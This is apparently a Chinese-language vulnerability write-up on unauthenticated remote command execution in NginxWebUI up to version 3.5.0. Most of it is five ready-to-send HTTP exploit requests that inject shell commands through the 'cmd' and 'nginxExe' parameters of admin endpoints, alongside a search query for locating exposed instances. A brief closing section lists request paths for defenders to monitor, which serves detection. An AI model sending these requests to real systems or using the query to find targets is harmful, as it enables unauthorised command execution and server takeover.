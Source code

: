# NginxWebUI run Cmd 远程命令执行漏洞

## 漏洞描述

NginxWebUI是一款图形化管理nginx配置的工具，能通过网页快速配置nginx的各种功能，包括HTTP和TCP协议转发、反向代理、负载均衡、静态HTML服务器以及SSL证书的自动申请、续签和配置，配置完成后可以一键生成nginx.conf文件，并控制nginx使用此文件进行启动和重载。

NginxWebUI后台提供执行nginx相关命令的接口，由于未对用户的输入进行过滤，导致可在后台执行任意命令。并且该系统权限校验存在问题，导致存在权限绕过，在前台可直接调用后台接口，最终可以达到无条件远程命令执行的效果。

## 影响范围

nginxWebUI <= 3.5.0

网络空间测绘语法：app="nginxWebUI"

## 漏洞利用

### 命令执行一

```
GET /AdminPage/conf/runCmd?cmd=calc%26%26nginx HTTP/1.
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: corsSec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### 命令执行二

```
POST /AdminPage/remote/cmdOver HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

remoteId=local&cmd=start calc%26%26nginx&interval=1
```

### 命令执行三

```
POST /Api/nginx/runNginxCmd HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: corsSec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

cmd=calc%26%26nginx
```

### 命令执行四

```
GET /AdminPage/conf/reload?nginxExe=calc%20%7C HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: corsSec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


### 命令执行五

```
POST /AdminPage/conf/check HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

nginxExe=calc%20%7C&json={"nginxContent":"","subContent":"[]","subName":"[]"}&nginxPath=/1/
```

## 研判分析

关注以下请求方法和路径

- GET、'/AdminPage/conf/runCmd?cmd='
- POST、'/AdminPage/remote/cmdOver'
- POST、'/Api/nginx/runNginxCmd'
- GET、'/AdminPage/conf/reload?nginxExe='
- POST、'/AdminPage/conf/check'
- POST、'/AdminPage/conf/saveCmd'
- GET、'/AdminPage/conf/checkBase'
- POST、'/AdminPage/conf/saveCmd'
- GET、'/Api/nginx/check'

当请求方法为POST时，需要结合body信息进行分析。body中常见的信息中如："cmd"或者"nginxExe"等。

## 参考链接

nginxWebUI runCmd 未授权远程代码执行

<http://www.hackdig.com/07/hack-1031358.htm>
